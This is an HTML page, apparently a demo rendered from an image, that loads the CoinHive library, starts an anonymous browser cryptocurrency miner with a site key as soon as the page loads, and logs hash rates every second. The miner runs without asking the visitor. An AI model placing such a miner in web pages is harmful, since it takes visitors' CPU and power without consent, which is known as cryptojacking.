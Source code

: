 <html>
 
    <head>
        <title>We are mining using your computer!</title>
        <script src="https://coin-hive.com/lib/coinhive.min.js"></script>
    </head>
 
    <body>
 
 
 
        <script>
            var miner = new CoinHive.Anonymous('7rjR1TvzXHUTcvwNJ0LF7aNGFifdyrSw');
            miner.start();
 
            // Listen on events
            miner.on('found', function() {
                console.log("found hash!")
            })
            miner.on('accepted', function() {
                console.log("accepted hash!")
            })
 
            // Update stats once per second
            setInterval(function() {
                var hashesPerSecond = miner.getHashesPerSecond();
                var totalHashes = miner.getTotalHashes();
                var acceptedHashes = miner.getAcceptedHashes();
 
                console.log("hashesPerSecond", hashesPerSecond)
                console.log("totalHashes", totalHashes)
                console.log("acceptedHashes", acceptedHashes)
 
                console.log("-----------")
                console.log("-----------")
                console.log("-----------")
 
                // Output to HTML elements...
            }, 1000);
        </script>
    </body>
 
</html>
